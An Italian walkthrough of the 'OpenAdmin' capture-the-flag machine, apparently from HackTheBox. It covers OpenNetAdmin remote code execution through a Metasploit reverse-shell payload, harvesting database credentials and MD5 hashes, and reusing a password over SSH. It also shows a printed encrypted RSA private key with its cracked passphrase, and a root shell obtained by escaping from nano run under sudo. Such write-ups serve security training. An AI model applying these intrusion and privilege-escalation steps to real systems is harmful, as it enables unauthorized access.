 ## Information Gathering  + Exploiting ##

* Scovata la pagina 10.10.10.171/ona/

* Risulta essere vulnerabile all'exploit "OpenNetAdmin 18.1.1 - Remote Code Execution"

* Importo il .rb dentro metasploit, lo seleziono con "use", setto il payload "linux/x64/meterpreter/reverse_tcp"

## Post-Exploitation - User 1 Escalation - ##

* Scopro un file di config con delle credenziali di un DB, grazie al comando:
```
$ grep -rnw . -e 'db_passwd'  
./plugins/ona_nmap_scans/install.php:153:        mysql -u {$self['db_login']} -p{$self['db_passwd']} {$self['db_database']} < {$sqlfile}</font><br><br>
./include/functions_db.inc.php:102:        $ona_contexts[$context_name]['databases']['0']['db_passwd']   = $db_context[$type] [$context_name] ['primary'] ['db_passwd'];
./include/functions_db.inc.php:108:        $ona_contexts[$context_name]['databases']['1']['db_passwd']   = $db_context[$type] [$context_name] ['secondary'] ['db_passwd'];
./include/functions_db.inc.php:150:            $ok1 = $object->PConnect($self['db_host'], $self['db_login'], $db['db_passwd'], $self['db_database']);
./local/config/database_settings.inc.php:13:        'db_passwd' => 'n1nj4W4rri0R!',
```

* Contenuto del file "database_settings.inc.php":
```
<?php

$ona_contexts=array (
  'DEFAULT' => 
  array (
    'databases' => 
    array (
      0 => 
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
);
```

* mysql -u ona_sys -p ona_default -e 'show tables'

* mysql -u ona_sys -p ona_default -e 'select * from users'
```
id      username        password        level   ctime   atime
1       guest   098f6bcd4621d373cade4e832627b4f6        0       2020-02-15 13:47:44     2020-02-15 13:47:43
2       admin   21232f297a57a5a743894a0e4a801fc3        0       2007-10-30 03:00:17     2007-12-02 22:10:26
```
* Uso CrackStation per rompere gli MD5, risultato:
```
1 test
2 admin
```

* Ho vinto il premio dell'anno per PirlaSummaCumLaude, ho fatto ssh jimmy@10.10.10.171 e la password era... n1nj4W4rri0R!

RabbitHole il DB!

## Post-Exploitation - User 2 Escalation - ##

* Ho trovato nella folder /home/jimmy/.ssh la seguente stringa:
```
|1|+jHNuEBNL1R1f9YVJsKhsHWRw24=|p4AqqwkcMx9DwyxPRhzcCxxJR1U= ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHqbD5jGewKxd8heN452cfS5LS/VdUroTScThdV8IiZdTxgSaXN1Qga4audhlYIGSyDdTEL8x2tPAFPpvipRrLE=
```

  ** Nope tutte robe inutili
  
* Lanciato grep da / per tutte le folder con Jimmy come owner

* Rilevata folder "/var/www/internal/" con "main.php" interessante.

* C'è una funzioncina che ti stampa a video la chiave RSA di Joanna. La invoco con:
```
curl 127.0.0.1/main.php
```
* Non succede nulla, quindi cerco altre eventuali porte in ascolto:
```
netstat -tulpn
```  
* Trovo altre porte aperte in ascolto, tra cui: *2846*

* curl http://127.0.0.1:52846/main.php

* Recupero l'id_rsa di Joanna:
```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,2AF25344B8391A25A9B318F3FD767D6D

kG0UYIcGyaxupjQqaS2e1HqbhwRLlNctW2HfJeaKUjWZH4usiD9AtTnIKVUOpZN8
ad/StMWJ+MkQ5MnAMJglQeUbRxcBP6++Hh251jMcg8ygYcx1UMD03ZjaRuwcf0YO
ShNbbx8Euvr2agjbF+ytimDyWhoJXU+UpTD58L+SIsZzal9U8f+Txhgq9K2KQHBE
6xaubNKhDJKs/6YJVEHtYyFbYSbtYt4lsoAyM8w+pTPVa3LRWnGykVR5g79b7lsJ
ZnEPK07fJk8JCdb0wPnLNy9LsyNxXRfV3tX4MRcjOXYZnG2Gv8KEIeIXzNiD5/Du
y8byJ/3I3/EsqHphIHgD3UfvHy9naXc/nLUup7s0+WAZ4AUx/MJnJV2nN8o69JyI
9z7V9E4q/aKCh/xpJmYLj7AmdVd4DlO0ByVdy0SJkRXFaAiSVNQJY8hRHzSS7+k4
piC96HnJU+Z8+1XbvzR93Wd3klRMO7EesIQ5KKNNU8PpT+0lv/dEVEppvIDE/8h/
/U1cPvX9Aci0EUys3naB6pVW8i/IY9B6Dx6W4JnnSUFsyhR63WNusk9QgvkiTikH
40ZNca5xHPij8hvUR2v5jGM/8bvr/7QtJFRCmMkYp7FMUB0sQ1NLhCjTTVAFN/AZ
fnWkJ5u+To0qzuPBWGpZsoZx5AbA4Xi00pqqekeLAli95mKKPecjUgpm+wsx8epb
9FtpP4aNR8LYlpKSDiiYzNiXEMQiJ9MSk9na10B5FFPsjr+yYEfMylPgogDpES80
X1VZ+N7S8ZP+7djB22vQ+/pUQap3PdXEpg3v6S4bfXkYKvFkcocqs8IivdK1+UFg
S33lgrCM4/ZjXYP2bpuE5v6dPq+hZvnmKkzcmT1C7YwK1XEyBan8flvIey/ur/4F
FnonsEl16TZvolSt9RH/19B7wfUHXXCyp9sG8iJGklZvteiJDG45A4eHhz8hxSzh
Th5w5guPynFv610HJ6wcNVz2MyJsmTyi8WuVxZs8wxrH9kEzXYD/GtPmcviGCexa
RTKYbgVn4WkJQYncyC0R1Gv3O8bEigX4SYKqIitMDnixjM6xU0URbnT1+8VdQH7Z
uhJVn1fzdRKZhWWlT+d+oqIiSrvd6nWhttoJrjrAQ7YWGAm2MBdGA/MxlYJ9FNDr
1kxuSODQNGtGnWZPieLvDkwotqZKzdOg7fimGRWiRv6yXo5ps3EJFuSU1fSCv2q2
XGdfc8ObLC7s3KZwkYjG82tjMZU+P5PifJh6N0PqpxUCxDqAfY+RzcTcM/SLhS79
yPzCZH8uWIrjaNaZmDSPC/z+bWWJKuu4Y1GCXCqkWvwuaGmYeEnXDOxGupUchkrM
+4R21WQ+eSaULd2PDzLClmYrplnpmbD7C7/ee6KDTl7JMdV25DM9a16JYOneRtMt
qlNgzj0Na4ZNMyRAHEl1SF8a72umGO2xLWebDoYf5VSSSZYtCNJdwt3lF7I8+adt
z0glMMmjR2L5c2HdlTUt5MgiY8+qkHlsL6M91c4diJoEXVh+8YpblAoogOHHBlQe
K1I1cqiDbVE/bmiERK+G4rqa0t7VQN6t2VWetWrGb+Ahw/iMKhpITWLWApA3k9EN
-----END RSA PRIVATE KEY-----
```

* La chiave è protetta da passphrase, la rompo con John e scopro che è:
```
"bloodninjas"
```
* Apro una nuova sessione con Joanna:
```    
$ ssh -i id_rsa_joanna joanna@10.10.10.171
```
*#*#* Prelevo User Flag! *#*#*

## Post-Exploitation - Root Privilege Escalation - ##

* Si comincia per il root! Con "sudo -l" scopro che Joanna è abilitata a lanciare sudo senza password "sudo /bin/nano /opt/priv", lo lancio e mi apre una sessione di nano.

* GTFOBins mi suggerisce come spawnare una shell con privilegi di root: 
 ```   
CTRL+R CTRL+X e poi "reset; sh 1>&0 2>&0"
```
* cat /root/root.txt 

*#*#* Prelevo ROOT's Flag! *#*#*

BIS) In alernativa posso aggiungere un utente al file /etc/psswd! Apro il nano in sudo come al punto 11, quindi:
```
  CTRL+O

  etc/psswd

  Aggiungo un utente root.
```
